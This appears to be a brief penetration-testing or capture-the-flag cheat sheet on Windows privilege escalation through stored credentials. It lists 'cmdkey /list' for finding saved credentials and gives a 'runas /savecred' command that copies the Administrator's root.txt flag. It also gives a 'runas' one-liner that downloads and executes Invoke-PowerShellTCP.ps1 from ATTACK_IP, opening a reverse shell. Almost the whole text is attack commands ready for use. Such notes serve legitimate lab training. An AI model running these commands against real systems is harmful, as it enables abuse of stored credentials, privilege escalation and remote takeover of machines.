 [RunAs Command](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11))

```stored-creds
cmdkey /list
```

WinPeas or JAWS will already do cmdkey and grab stored creds

```runas
C:\Windows\System32\runas.exe /user:<SAVEDCRED> /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\US\root.txt"
```

/savecred just means use the saved credentials to do everything in quotes (which just TYPEs out a file and redirects output to the US user)

```runas-rev-shell
runas /user:<SAVEDCRED> "powershell -c IEX (New-Object net.webclient).downloadstring('http://ATTACK_IP/Invoke-PowerShellTCP.ps1')"
```

